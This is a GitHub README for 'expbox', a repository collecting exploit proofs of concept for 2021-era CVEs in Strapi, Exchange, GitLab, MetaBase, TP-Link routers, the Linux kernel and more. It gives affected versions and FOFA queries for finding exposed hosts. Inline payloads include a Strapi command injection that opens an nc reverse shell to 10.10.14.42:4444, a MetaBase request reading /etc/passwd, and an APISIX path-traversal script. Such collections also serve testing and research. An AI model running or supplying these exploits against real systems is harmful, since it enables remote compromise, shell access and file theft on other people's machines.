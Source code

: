 ![[object Object]](https://socialify.git.ci/0x0021h/expbox/image?description=1&name=1&stargazers=1&theme=Light)

### Introduction
expbox is an exploit code collection repository


### List
**Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution**
```
curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMzE5NzEwLCJleHAiOjE2MzI5MTE3MTB9.AfJr81dyxnmzlutCKArmf0kBgFCcDDhsk91IYNDpTFM' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.42 4444 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'
```

**[CVE-2021-41349 Exchange XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021-41349-poc.py)**
```
<= Exchange 2013 update 23
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```
**[CVE-2021–3945 Django-helpdesk stored XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021%E2%80%933945-poc.txt)**
```
<= 0.3.0
```

**[CVE-2021-37580 Apache ShenYu 2.3.0/2.4.0 authentication bypass](https://github.com/0x0021h/expbox/blob/main/cve-2021-37580-poc.py)**
```
Ref: https://github.com/fengwenhua/CVE-2021-37580
```


**[Hadoop Yarn RPC RCE](https://github.com/0x0021h/expbox/blob/main/Hadoop%20Yarn%20RPC%20RCE.md)**
```
Ref: https://github.com/cckuailong/YarnRpcRCE
```

**[CVE-2021-41277 MetaBase Arbitrary File Read](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41277.yaml)**
```
MetaBase < 0.40.5
1.0.0 <= MetaBase < 1.40.5

FOFA:

app="Metabase"

PoC:

GET /api/geojson?url=file:/etc/passwd HTTP/1.1
```

**[CVE-2021-42321 Exchange Post-Auth RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-42321.py)**
```
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```

**[Windows 0day - InstallerFileTakeOver](https://github.com/0x0021h/expbox/blob/main/InstallerFileTakeOver.exe)**
![image](https://user-images.githubusercontent.com/92664048/142796024-a46e8a46-90d1-42ed-8cf2-42127fb65da3.png)
```
Ref:https://github.com/klinix5/InstallerFileTakeOver
```

**CVE-2021-43557 Apache APISIX: Path traversal in request_uri variable**
```
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

**[CVE-2021-43267 Linux Kernel TIPC RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-43267.c)**
```
5.10-rc1 < Linux kernel < 5.15
```

Reference: https://haxx.in/posts/pwning-tipc/

**[Nginx 0.7.0 to 1.17.9 Host injection](https://github.com/0x0021h/expbox/blob/main/nginx%20%200.7.0%20to%201.17.9%20Host%20injection.md)**
```
Ref: https://twitter.com/infosec_90/status/1464337963240861702
```

**[CVE-2021-32849 Gerapy clone background remote command execution](https://github.com/0x0021h/expbox/blob/main/CVE-2021-32849.txt)**
```
Gerapy <= 0.9.6
```

**[CVE-2021-41653 TP-Link TL-WR840N remote command execution](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41653.py)**
```
TL-WR840N(EU)_V5_171211 / 0.9.1 3.16 v0001.0 Build 171211 Rel.58800n

Fofa:

app="TP_LINK-TL-WR840N"
```
Ref: https://github.com/ohnonoyesyes/CVE-2021-41653


**[CVE-2021-41951 ResourceSpace reflective XSS](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41951%20ResourceSpace%20reflective%20XSS.md)**
```
<= 9.5
```

**[sqlmap RCE](https://github.com/0x0021h/expbox/blob/main/sqlmap_rce.html)**
![image](https://user-images.githubusercontent.com/92664048/144734569-957596a7-5c46-48ef-8eea-9b07b151b315.png)


**[Jellyfin RemoteImageController.cs SSRF](https://github.com/0x0021h/expbox/blob/main/jellyfin.py)**
```
Jellyfin < 10.7.2

Example:
http://127.0.0.1:8096/Images/Remote?imageUrl=http://www.google.com
```
**[CVE-2021-22205 Gitlab Remote Code Execution](https://github.com/0x0021h/expbox/blob/main/CVE-2021-22205.py)**
```
11.9 <= Gitlab CE/EE < 13.8.8

13.9 <= Gitlab CE/EE < 13.9.6

13.10 <= Gitlab CE/EE < 13.10.3

Ref:https://mp.weixin.qq.com/s/I60Q1guRcdIFMhXVeMnm6w
```


### Note

All content comes from the Internet, if there is a copyright problem, please contact me to delete.


![Alt](https://repobeats.axiom.co/api/embed/b5d4d71e5703d077abc2b3a8bffb5331e9ddf9d5.svg "Repobeats analytics image")
